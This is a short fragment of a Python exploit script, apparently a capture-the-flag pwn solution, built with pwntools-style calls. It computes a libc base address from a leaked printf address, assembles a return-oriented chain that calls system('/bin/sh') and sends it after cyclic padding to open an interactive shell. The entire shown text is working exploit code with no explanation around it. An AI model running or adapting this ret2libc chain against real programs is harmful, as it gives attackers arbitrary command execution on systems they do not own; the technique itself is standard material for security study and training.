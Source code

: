 ```py
# system
system = 0x4f550

libc_base = addr - printf_offset
print('LIBC LEAK', hex(libc_base))

payload = b""
payload += p64(pop_rdi)
payload += p64(libc_base + binsh)

payload += p64(pop_rsi)
payload += p64(0x0)
payload += p64(0x0)

payload += p64(libc_base + system)

p.sendline(cyclic_find('saaa') * b'\x00'  + payload)
p.interactive()
```
